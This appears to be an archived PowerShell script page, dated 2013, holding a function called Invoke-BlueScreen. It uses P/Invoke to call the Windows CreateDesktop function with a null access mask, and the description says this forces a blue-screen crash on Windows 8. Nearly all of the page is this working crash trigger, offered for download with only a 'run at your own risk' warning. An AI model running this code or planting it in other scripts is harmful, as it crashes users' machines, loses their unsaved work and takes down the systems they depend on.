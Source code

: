 ```yaml
---
pid:            4216
author:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
format:         posh
parent:         0

---
```


# Invoke-BlueScreen

### [download](Scripts\4216.ps1)

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
